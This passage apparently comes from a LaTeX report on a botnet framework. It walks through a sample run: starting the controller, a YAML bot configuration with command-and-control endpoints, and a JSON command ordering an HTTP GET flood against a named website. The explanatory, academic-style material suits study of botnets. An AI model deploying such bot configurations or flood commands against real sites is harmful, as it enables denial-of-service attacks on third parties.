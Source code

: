 \section{Sample execution}
\label{sec:sample-execution}

We show here a sample execution to give the reader an idea about how everything works.
We suggest the reader to refer to \cite{video-tutorial} to better understand how configuration and commands could be conveniently generated.

First, the controller is started and attached to the default port 3000 with standard verbosity:

\begin{verbatim}
  $[controller-dir] npm start
\end{verbatim}

Then, the following configuration is given for the bot, writing it in \texttt{/path/to/configuration/config.yaml}:

\begin{verbatim}
  cnfInfo: true
  tgtInfo: true
  sysInfo: true
  netInfo: false
  polling: "3-5:SECONDS"
  reconnections: 3
  reconnectionWait: "2-5:SECONDS"
  proxy: "none"
  sleep: "* * * ? * SAT,SUN"
  authentication:
    User-Agent: MyAwesomeBot
  controllers:
    - init: http://localhost:4000/init
      command: http://localhost:4000/command
      log: http://localhost:4000/report
    - init: http://localhost:3000/init
      command: http://localhost:3000/command
      log: http://localhost:3000/report
    - init: data/samples/controllers/1/init.json
      command: data/samples/controllers/1/command.json
      log: data/samples/controllers/1/report.json
\end{verbatim}

Notice that the first specified controller is an invalid one, the second one is valid because the controller has been started at port 3000, and the last one is provided as a fallback controller for local testing.
The controller gives the bot the following \texttt{ATTACK\_HTTPFLOOD} command to perform a HTTP GET Flooding attack:

\begin{verbatim}
	{
  		"timestamp": 1485675115019,
	    "command": "ATTACK_HTTPFLOOD",
  		"attacks": [
    		{
      			"target": "http://www.micheleporretta.com",
      			"method": "GET",
      			"header": {
        			"User-Agent": "myBot"
      			},
      			"executions": "3",
      			"period": "10-120:MILLISECONDS"
    		},
    		{
      			"target": "http://www.micheleporretta.com",
      			"method": "GET"
    		}
  		],
  		"report": false
	}
\end{verbatim}

